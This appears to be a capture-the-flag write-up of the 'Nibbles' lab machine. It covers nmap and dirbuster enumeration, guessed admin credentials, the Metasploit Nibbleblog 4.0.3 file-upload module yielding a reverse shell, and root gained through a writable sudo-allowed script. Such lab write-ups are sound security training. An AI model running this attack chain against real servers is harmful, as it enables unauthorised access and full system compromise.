




# Nibbles

## 1. Overview

### 1.1. Attacks

* Apache
* NibbleBlog

### 1.2. Tools used

**Enumeration** &rarr; `Nmap`, `Dirbuster`.

**Exploitation** &rarr; `Metasploit`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap

##### 2.1.1.1. Ports



We can see it's running Ubuntu.

#### 2.1.2. Apache

Go to the website `10.10.10.75`. We can check the source code and see that it has a comment mentioning a `/nibbleblog/` directory. Let's see what `10.10.10.75/nibbleblog` shows.



We can try to use `searchsploit` to see if there's something to do with Nibble:

```sh
root@kali:~# searchsploit nibble
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                   | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)    | php/remote/38489.rb
--------------------------------------------------------- ---------------------------------
```

The Remote file Upload looks juicier (and more malign). We can probably exploit it with this.

### 2.2. Exploitation

#### 2.2.1. Sources

[Linux Privilege Escalation Scripts [NetSec]](https://netsec.ws/?p=309)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/multi/http/nibbleblog_file_upload
msf5 > info

...
Description:
  Nibbleblog contains a flaw that allows an authenticated remote 
  attacker to execute arbitrary PHP code. This module was tested on 
  version 4.0.3.
...
```
It allows an **authenticated** remote attacker, so there might be a login page somewhere. We also need to determine if the version running on the blog is `4.0.3` like the exploit requires.

We could search for the page by using common pages like `10.10.10.75/nibbleblog/admin.php` or use `dirbuster`:





We can see the `admin.php` does exist, and if we go to `10.10.10.75/nibbleblog/admin.php` there's a sign in page.

Since it's somebody's blog, there won't be any default credentials to use, so we could build a brute force attack. The credentials end up being:

* User: admin
* Password: nibbles

To use the exploit we found before, we need to know if this uses the version `4.0.3`. And it shows in the `settings` page that that's exactly the version it's running.

```sh
msf5 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf5 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf5 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.10.10.75
rhosts => 10.10.10.75
msf5 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog
targeturi => /nibbleblog
msf5 exploit(multi/http/nibbleblog_file_upload) > run
```

What this does is upload an `image.php` file in the `addons` section. This shouldn't be allowed, only `jpg`, `png`... So it uploads a `php` file and then calls it and it gives us a reverse shell.

```sh
meterpreter > sysinfo
Computer    : Nibbles
OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: nibbler (1001)
```

We are not a high-level user, so we'll need to probably get root (we have the version of Linux from this), or we can get into a shell and see if we can find something (there's the `user.txt` key on `/home/nibbler/user.txt`, available without root). In some cases we might be lucky by using the command `history` to see if the user ever writes down the credentials, but the command isn't found.

Let's see what we can execute without root password:

```sh
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We can run that `monitor.sh` file without a sudo password, but that file doesn't exist. That means we could create it and run it maliciously.

**Note:** some interesting scripts to run are `LinEnum.sh` and `linuxprivchecker.py`.

Let's go to the `/home/nibbler/personal/stuff/` directory. Now we can get an interactive shell by doing the following:

```sh
echo "bash -i" > monitor.sh
chmod +x monitor.sh

sudo /home/nibbler/personal/stuff/monitor.sh
```

And we got root!